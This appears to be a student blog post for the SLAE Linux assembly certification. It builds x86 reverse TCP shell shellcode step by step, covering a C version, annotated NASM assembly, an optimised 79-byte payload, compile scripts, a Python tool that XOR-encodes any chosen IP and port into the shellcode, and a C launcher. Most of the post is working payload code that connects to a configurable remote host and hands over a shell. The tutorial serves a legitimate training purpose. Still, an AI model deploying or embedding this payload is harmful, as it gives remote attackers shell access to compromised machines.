






# Assignment #2 - Shellcode for a Reverse TCP Shell 

**Exercise description:** Creating shellcode for running a TCP reverse shell. The solution must allow to configure both the connection port and the IP easily, and the shellcode must execute a shell on a successful connection.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_2/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

In order to create a TCP reverse shell, it is necessary to achieve the following sub-tasks:

1. Generating a TCP socket
2. Connecting the socket to a remote port
3. Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
4. Spawning the shell

An example of a reverse TCP shell using C code would be the following:

````
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
 
int main (int argc, char **argv)
{
  int scktd;
  struct sockaddr_in client;
 
  client.sin_family = AF_INET;
  client.sin_addr.s_addr = inet_addr("127.0.0.1");
  client.sin_port = htons(8888);

  scktd = socket(AF_INET,SOCK_STREAM,0);
  connect(scktd,(struct sockaddr *)&client,sizeof(client));

  dup2(scktd,0); // STDIN
  dup2(scktd,1); // STDOUT
  dup2(scktd,2); // STDERR

  execl("/bin/sh",NULL,NULL);

  return 0;
}
````
``Reverse TCP shell in C language``

## Generate a TCP socket

An explanation on how to create a socket is detailed on [Assignment #1 - Shellcode for a Bind TCP Shell](../../Assignment_1/Docs/Assignment_1.html).

Furthermore, the assembly code for this part of the reverse TCP shell would be similar to the bind TCP shell:

````
; Creating a TCP socket

xor eax,eax             ;zeroed eax
mov ebx,eax             ;zeroed ebx
mov ecx,eax             ;zeored ecx
; socket call requires socket(AF_INET,SOCK_STREAM,0)
push eax                ;sets socket.protocol = 0
push 1                  ;sets socket.type = 1 = SOCK_STREAM
push 2                  ;sets socket.domain = 2 = AF_INET
; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
mov ecx,esp             ;loads the arguments on ecx
inc ebx                 ;ebx now is 0x1 to declare SYS_SOCKET function on sys_socketcall
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80                ;executes the call to sys_socketcall
mov edi,eax             ;stores the file descriptor (fd) on edi
````
``Assembly code for creating a TCP socket``

## Connecting the socket to remote port

The *man* page for *connect* details the structure needed to initiate a connection from a local socket to a remote address.



``man connect``

As the arguments needed for calling *connect* and *bind* are similar (and *bind* was covered on [previous exercise](/assignment1)), this page will only explain the differences when calling *connect* function.

The master header file for the Linux NET layer specifies the protocol number for **SYS_CONNECT** as **3**.


``/usr/include/linux/net.h``

Apart from this, it is necesarry to declare the IP in the **addr* argument.

Finally, **to avoid null characters** on IP address or Port number is necessary to include a simple XOR decoder. Thus, when executing this program in conjunction with the *shellcoder* described later, the program will decode the IP & Port arguments on the fly.

````
; Connecting the TCP socket
; *addr section
mov edi,0x100007F       ;IP address to connect to is 127.0.0.1 (this will be decoded on runtime)
xor edi,0xFFFFFFFF      ;decoder for the IP address
push edi                ;loads the IP address
mov si,0xb822           ;loads the variable port on SI register
xor si,0xFFFF           ;decoder for the PORT number
push si                 ;loads the PORT number
inc ebx                 ;ebx is 0x2
push bx                 ;AF_INET = 2
mov ecx,esp             ;saves the pointer of addr on ecx
; now, store "sockfd,*addr,addrlen on ecx
push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
push ecx                ;loads the memory location of addr struct
push eax                ;loads the fd
mov ecx, esp
inc ebx                 ;ebx is 0x3 to declare SYS_CONNECT function on sys_socketcall
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80                ;executes the call
````
``Assembly code for connecting the socket to a remote address``

In order to test the execution of the program until this part, it is necessary to start a listener on port 8888: **nc -nv -l 8888**. Furthermore, to test this part of code without using the wrapper provided later on this article, is necessary to comment those lines that contain the word *decoder*. Otherwise the function will return an error, which will be stored on *EAX*.


``Debugging the connection of the socket to a remote address``



``Incoming connection received on the listener``

## Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
This functionality is similar to the bind TCP shell, so the code will be the same.
````
; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
mov ebx,eax             ;saves the oldfd on ebx
mov ecx,edx             ;sets newfd to 0 for stdin
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,0) for redirect stdin
inc ecx                 ;sets newfd to 1 for stdout
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,1) for redirect stdin
inc ecx                 ;sets newfd to 2 for stdout
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,2) for redirect stdin
````
``Assembly code for redirecting any I/O through the socket``

## Spawning the shell
This functionality is similar to the bind TCP shell, so the code will be the same.
````
; Executing a shell
push edx                ;loads NULL terminator
push long 0x68732f2f    ;loads 'hs//'
push long 0x6e69622f    ;loads 'nib/'
mov ebx,esp             ;saves the pointer to '/bin//sh'
mov ecx,edx             ;loads NULL and edx still contains NULL
mov al,0x0b             ;configures eax for syscall - execve
int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Assembly code for executing a shell``

## Improving the Size 
Right now, shellcode's size is **90** bytes. However, it is possible to optimize this size by grouping similar parts of code in functions that will be called multiple times, and by tricking some parts to save space.

This way, the optimized code size is **79** bytes and the code is the following.

````
; Filename: 	reverse_tcp_shell.nasm
; Author:  	Samuel Dugo
; SLAE-ID:	SLAE-1376
; Size:		79 Bytes
; Purpose: 	Assignment #2 of SLAE certification. This shellcode creates a reverse tcp shell. The IP and Port need to be adjusted using the Python wrapper provided with this code.

global _start			

section .text
_start:

; Creating TCP socket
	xor eax,eax
	cdq
	; socket call requires socket(AF_INET,SOCK_STREAM,0)
	push edx                ;set socket.protocol = 0
	push 1                  
	pop ebx			 ;ebx is 0x1 to declare SYS_SOCKET function on sys_socketcall
	push ebx		 ;sets socket.type = 1 = SOCK_STREAM
	push 2                  ;sets socket.domain = 2 = AF_INET
	; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
	mov al,0x66		 ;defines syscall as sys_socketcall(number,args)
	mov ecx,esp             ;loads the arguments on ecx
	int 0x80                ;executes the call to sys_socketcall

; Connecting the TCP socket
	pop ebx			 ;ebx is 0x2
	;*addr section
	mov edi,0x100007F       ;IP address to connect to is 127.0.0.1 (this will be decoded on runtime)
	xor edi,0xFFFFFFFF      ;decoder for the IP address
	push edi                ;loads the IP address
	mov si,0xb822           ;loads the variable port on SI register
	xor si,0xFFFF           ;decoder for the PORT number
	push si                 ;loads the PORT number
	push bx                 ;AF_INET = 2
	mov ecx,esp             ;saves the pointer of addr on ecx
	;now, store "sockfd,*addr,addrlen on ecx
	push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
	push ecx                ;loads the memory location of addr struct
	push eax                ;loads the fd
	mov ecx, esp
	inc ebx                 ;ebx is 0x3 to declare SYS_CONNECT function on sys_socketcall
	mov al,0x66             ;defines syscall as sys_socketcall(number,args)
	int 0x80                ;executes the call

; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
	mov ecx,ebx             ;ecx now is 3
	mov ebx,eax             ;saves the oldfd on ebx
Redirection:
	dec ecx			 ;decrements by 1 ecx to pass through stdout,stdin,stderr
        mov al,0x3f             ;syscall number for sys_dup2
        int 0x80                ;executes dup2(oldfd,$ecx) for redirect stdout,stdin,stderr
	jnz Redirection	 ;repeats this process until zero flag is set

; Executing a shell
	push edx                ;loads NULL terminator
	push long 0x68732f2f    ;loads 'hs//'
	push long 0x6e69622f    ;loads 'nib/'
	mov ebx,esp             ;saves the pointer to '/bin//sh'
;	ecx & edx still contain NULL
	mov al,0x0b             ;configures eax for syscall - execve
	int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Optimized code for Reverse TCP Shell (79 bytes)``

## Executing the Code

To compile the NASM file with the bind TCP shell code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh reverse_tcp_shell

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

Now is necessary to parse the shellcode to adjust the IP and port number. 

The following Python parser will do the job, and the syntax for executing it is: ``python reverse_tcp_shell_shellcoder.py [BINARY_NAME] [DST_IP] [DST_PORT]``

````
#!/usr/bin/python
import binascii
import re
import socket
import subprocess
import sys

def getHexBinCode(code_to_insert, code_to_search, pattern_to_match):
    #Searches for a piece of shellcode to subsitute
    #and returns the shellcode modified
    code = ""
    m = re.match("^(.*?)"+pattern_to_match+"(.+)$",code_to_search)
    if m:
        code = m.group(1) + code_to_insert + m.group(2)
    return code

def getShellcode(bin_name,dest_ip,dest_port):
    #Gets initial shellcode
    objdump_command = "objdump -d ./"+bin_name+"|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\\t' ' '|sed 's/ $//g'|sed 's/ //g'|paste -d '' -s"
    process = subprocess.Popen(objdump_command, shell=True, stdout=subprocess.PIPE)
    hex_bin_code, err = process.communicate()
    #Substitute IP on shellcode
    ip_pattern_to_search = "7f000001"
    ip_xor_key = "FFFFFFFF"
    ip_hex = binascii.hexlify(socket.inet_aton(dest_ip))
    ip_xor_result = xorBinToHex(ip_hex,ip_xor_key)
    hex_bin_code = getHexBinCode(ip_xor_result, hex_bin_code, ip_pattern_to_search)
    #Substitue PORT on shellcode
    #Port number must be always 4 digits
    port_pattern_to_search = "22b8"
    port_xor_key = "FFFF"
    port_hex = hex(int(dest_port))
    port_xor_result = xorBinToHex(port_hex,port_xor_key)
    hex_bin_code = getHexBinCode(port_xor_result, hex_bin_code, port_pattern_to_search)   
    #Get final shellcode
    opcodes_key = ["\\x" + hex_bin_code[i:i+2] for i in range(0, len(hex_bin_code), 2)]
    print("Shellcode: " + ''.join(opcodes_key))
    print("------------------------------------------")
    print("Shellcode length: " + str(len(opcodes_key)))


def printError(error):
    #Handles error messages
    message = ""
    if error == 1:
        message = "An error occured while executing the program. Please, ensure you are invoking this program using the following syntax: ./reverse_tcp_shell_launcher.py BIN_OF_NASM DST_IP DST_PORT"
    elif error == 2:
        message = "Incorrect port number. Please specify a port number of 4 digits."
    elif error == 3:
        message = "Incorrect IP. Please specify a valid IP address."
    print(message)

def xorBinToHex(a,b):
    #Converts two hex strings to binary
    #and returns the XORed result of them in hex format
    binary_a = bin(int(a,16))[2:]
    binary_b = bin(int(b,16))[2:]
    xored_hex = format(int(binary_a,2) ^ int(binary_b,2),'02x')
    return xored_hex

def main():
    try:
        bin_name = sys.argv[1]
        dest_ip = sys.argv[2]
        dest_port = sys.argv[3]
        try:
            socket.inet_aton(dest_ip)
            if len(sys.argv[3]) ==  4 and sys.argv[3].isdigit():
                getShellcode(bin_name,dest_ip,dest_port)
            else:
                printError(2)
        except:
            printError(3)
    except:
        printError(1)

if __name__ == '__main__':
    main()
````
``reverse_tcp_shell_shellcoder.py``



``Example of execution for reverse_tcp_shell_shellcoder.py``

This parser will return the shellcode that will be inserted on the following C code.

````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"[INSERT_YOUR_SHELLCODE_HERE]";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
````
``shellcode.c``

To compile this C code, the following bash script could be executed including the name of the C file (without extension):

````
#!/bin/bash
#Example of execution ./compile_shellcode.sh shellcode

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Now the shellcode can be tested.


``Shellcode execution``

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
